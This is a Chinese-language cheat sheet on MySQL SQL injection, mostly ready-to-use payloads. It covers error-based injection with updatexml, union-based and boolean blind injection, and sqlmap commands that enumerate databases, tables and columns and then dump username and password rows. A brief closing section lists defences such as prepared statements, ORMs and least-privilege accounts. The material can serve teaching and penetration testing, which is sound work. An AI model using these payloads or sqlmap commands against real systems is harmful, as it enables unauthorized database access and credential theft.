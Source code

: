 # MySQL 注入安全知识

## 1. SQL 注入概述

SQL 注入（SQL Injection）是一种攻击技术，攻击者通过构造特殊的 SQL 语句，使数据库执行未授权的查询或操作，从而泄露、篡改、删除数据库中的数据。

## 2. 报错注入（Error-Based Injection）

利用 MySQL 的报错机制获取数据库信息。

### 2.1 获取数据库名称

```sql
SELECT updatexml(1, CONCAT(0x7e, DATABASE()), 1);
' OR updatexml(1, CONCAT(0x7e, DATABASE()), 1);#
```

### 2.2 获取数据库中的表名

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE()), 0x7e), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE()), 0x7e), 1);#
```

如果数据库中仅有一个表：

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE())), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE())), 1);#
```

### 2.3 获取表中的列名

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='admin')), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='admin')), 1);#
```

### 2.4 获取表中的数据

获取第一条数据：

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT CONCAT(id, ',', username, ',', password) FROM login.user LIMIT 0,1)), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT CONCAT(username, ',', password) FROM abc.admin LIMIT 1,1)), 1);#
```

获取多条数据：

```sql
SELECT updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(id, ',', username, ',', password) FROM login.user LIMIT 0,2)), 1);
' OR updatexml(1, CONCAT(0x7e, (SELECT GROUP_CONCAT(id, ',', username, ',', password) FROM login.user LIMIT 0,2)), 1);#
```

## 3. 联合查询注入（Union-Based Injection）

### 3.1 判断列数

```sql
?id=1 ORDER BY n;
```

### 3.2 获取数据库名称

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, DATABASE(),9,10;
```

### 3.3 获取数据库中的表名

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, GROUP_CONCAT(table_name),9,10 FROM information_schema.tables WHERE table_schema=DATABASE();
```

### 3.4 获取表中的列名

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, GROUP_CONCAT(column_name),9,10 FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='manage_user';
```

### 3.5 获取表中的数据

```sql
?id=-1 UNION SELECT 1,2,3,4,5,6,7, GROUP_CONCAT(m_name,0x7e,m_pwd),9,10 FROM manage_user LIMIT 0,1;
```

## 4. 布尔盲注（Boolean-Based Blind Injection）

布尔盲注通过构造布尔表达式，观察页面是否返回相同的结果，从而判断数据。

```sql
' OR ASCII(SUBSTR(DATABASE(),1,1)) > 105#
```

## 5. sqlmap 指令

sqlmap 是一个自动化 SQL 注入检测和利用工具，支持多种注入方式。

### 5.1 获取数据库名称

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" --current-db
```

### 5.2 获取数据库的表

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" -D <Database> --tables
```

### 5.3 获取表中的列

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" -D <Database> -T <table> --columns
```

### 5.4 获取表中的数据

```bash
sqlmap -u "<url>" --cookie="<cookie_value>" -D <Database> -T <table> -C <column1>,<column2> --dump
```

## 6. 防御 SQL 注入

为了防止 SQL 注入攻击，应采用以下措施：

- 使用预处理语句（Prepared Statements）
  
  ```python
  import pymysql
  conn = pymysql.connect(host='localhost', user='root', password='password', database='test')
  cursor = conn.cursor()
  sql = "SELECT * FROM users WHERE username = %s AND password = %s"
  cursor.execute(sql, (username, password))
  ```

- **使用 ORM（如 SQLAlchemy、Django ORM）**

- **限制数据库用户权限**

- **开启 Web 应用的防火墙（WAF）**

- **过滤和转义用户输入**

- **设置 SQL 查询超时**

通过采取上述防御措施，可以有效降低 SQL 注入攻击的风险。